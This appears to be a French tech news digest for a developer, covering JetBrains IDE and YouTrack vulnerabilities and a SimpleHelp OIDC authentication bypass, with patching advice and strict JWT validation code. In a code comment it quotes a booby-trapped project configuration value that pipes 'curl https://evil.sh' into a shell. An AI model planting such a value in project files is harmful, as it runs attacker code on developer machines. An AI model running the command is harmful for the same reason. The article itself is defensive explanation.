


# Tech — Détail du dimanche 5 juillet 2026

## 1. JetBrains — cascade de failles critiques dans tout l'écosystème IDE (IntelliJ, Rider, GoLand, Hub/YouTrack)

**Source :** CybersecurityNews — https://cybersecuritynews.com/jetbrains-vulnerabilities/
**Date :** 1ᵉʳ-2 juillet 2026

### Contexte

JetBrains a publié un lot de correctifs couvrant toute sa gamme : les IDE de bureau (IntelliJ IDEA, Rider, WebStorm, PyCharm, GoLand, DataGrip, PhpStorm) et les serveurs d'identité auto-hébergés **Hub** et **YouTrack**. Les failles vont du contournement d'authentification à l'exécution de code à distance (RCE). Pour toi qui vis dans **Rider** (.NET), **WebStorm** (Angular) et **DataGrip** (PostgreSQL), c'est ton poste de dev qui est la cible. Un IDE compromis, c'est l'accès au code source, aux clés SSH, aux tokens cloud et aux pipelines CI/CD.

### Comment ça marche

Trois classes de bugs, trois mécanismes distincts.

D'abord, la **prise de compte via générateur aléatoire faible** (`CVE-2026-56141`, CVSS 9.8) sur Hub/YouTrack. La fonction « restaurer mon compte » émet un code censé être imprévisible. Ici le PRNG est prévisible : un attaquant énumère l'espace des codes et devine celui d'un admin. Aucune authentification requise.

Ensuite, le **contournement d'authentification**. `CVE-2026-50242` laisse forger un accès via la base directement ; `CVE-2026-49367` permet à un invité peu privilégié d'une session **Code With Me** d'exécuter des commandes sur l'hôte. Le partage de session, pensé pour le pair-programming, devient un canal d'exécution.

Enfin, l'**injection de commande / RCE par contenu non fiable**. `CVE-2026-49366` : l'auto-complétion de nom de fichier dans IntelliJ concatène l'entrée dans une commande shell. `CVE-2026-53915` : GoLand exécute du code au **chargement d'un projet** dont la configuration est piégée. Ouvrir un repo cloné suffit.



### En pratique — exemple de code

Le schéma dangereux est toujours le même : une entrée « de confiance » (nom de fichier, config projet) qui atterrit dans une exécution. À reproduire mentalement, jamais en prod :

```bash
# Le piege GoLand-like : une config projet qui lance une commande "utile"
# .idea/runConfigurations/Build.xml (simplifie) — evalue au chargement du projet
#   <option name="COMMAND" value="go build ./... ; curl https://evil.sh | sh" />

# Defense cote toi (workflow), avant d'ouvrir un repo inconnu :
git clone https://github.com/inconnu/repo.git repo                 # 1) cloner
grep -R "runConfigurations\|BeforeRunTask\|external tool" repo/.idea # 2) inspecter
# 3) ouvrir SANS auto-trust : Settings > Build > Trusted Locations = "Ask"
```

### Pourquoi ça compte pour toi

Tes IDE JetBrains touchent tout : code .NET, front Angular, bases PostgreSQL. Une RCE au simple chargement d'un projet cloné transforme « je jette un œil à ce repo » en compromission de poste. Mets à jour Rider, WebStorm, GoLand et DataGrip aujourd'hui. Active « Trusted Locations = Ask », et patche tout Hub/YouTrack auto-hébergé : le code de restauration prévisible ouvre les comptes admin sans mot de passe.

### Points de vigilance

Priorise les instances **Hub/YouTrack/TeamCity auto-hébergées** (exposées réseau). Certains identifiants CVE des IDE de bureau peuvent encore être en cours d'attribution ; fie-toi à la page officielle « Fixed security issues » de JetBrains (https://www.jetbrains.com/privacy-security/issues-fixed/) pour les numéros de version exacts à installer.

---

## 2. SimpleHelp CVE-2026-48558 — bypass d'authentification OIDC (CVSS 10) exploité, chaîne d'approvisionnement MSP

**Source :** Threat-Modeling.com — https://threat-modeling.com/cve-2026-48558-simplehelp-rmm-authentication-bypass-cisa-kev/
**Date :** 1ᵉʳ-2 juillet 2026 (CISA KEV, deadline 2 juillet)

### Contexte

SimpleHelp est un outil **RMM** (Remote Monitoring & Management) : les MSP l'utilisent pour administrer à distance les postes et serveurs de leurs clients. Compromettre le serveur SimpleHelp, c'est prendre la main sur **tous les endpoints gérés** — un effet « supply chain » classique. `CVE-2026-48558` (CVSS 10.0) est un contournement d'authentification **OIDC**, déjà au **CISA KEV**, avec le loader malveillant **TaskWeaver** confirmé déployé.

### Comment ça marche

OIDC (OpenID Connect) repose sur des **jetons signés** (JWT) émis par un fournisseur d'identité. Le service (ici SimpleHelp) doit vérifier trois choses avant de faire confiance : la **signature** (le token vient-il bien de l'IdP ?), l'**émetteur/audience** (`iss`/`aud`) et l'**expiration**. Le bug : une de ces vérifications est absente ou trop permissive. L'attaquant **forge un token** qui « ressemble » à celui d'un admin, le serveur l'accepte, crée un compte Technician, puis pilote tous les agents.

Le patron d'attaque des bypass JWT est bien connu : accepter `alg: none`, ne pas vérifier la signature, ou comparer le mauvais champ. Le résultat est toujours le même — une identité auto-proclamée devient une identité de confiance.



### En pratique — exemple de code

Ce que SimpleHelp aurait dû faire — et ce que tu dois faire dans **tes** services qui valident un JWT/OIDC :

```csharp
// ASP.NET Core — validation OIDC stricte (a NE PAS relacher)
builder.Services.AddAuthentication().AddJwtBearer(o =>
{
    o.Authority = "https://idp.exemple.com";      // recupere les cles publiques (JWKS)
    o.TokenValidationParameters = new()
    {
        ValidateIssuerSigningKey = true,  // 1) signature obligatoire (bloque alg:none)
        ValidateIssuer   = true,          // 2) iss attendu
        ValidateAudience = true,          // 3) aud == ton API
        ValidateLifetime = true,          // 4) exp/nbf verifies
        ClockSkew = TimeSpan.FromSeconds(30)
    };
});
```

### Pourquoi ça compte pour toi

Même si tu n'exploites pas SimpleHelp, tu écris des services qui valident des jetons OIDC. Le bug est un rappel : ne jamais désactiver `ValidateIssuerSigningKey`, refuser `alg:none`, vérifier `iss`/`aud`/`exp`. Un seul contrôle relâché = usurpation d'admin. Et si un prestataire gère tes machines via un RMM, demande-lui la version patchée et surveille les comptes Technician créés récemment.

### Limites

CVSS 10, mais l'exploitation vise le **serveur SimpleHelp exposé** ; le correctif éditeur existe. La priorité opérationnelle est de fermer l'exposition publique de l'API de management et d'auditer les comptes techniciens.
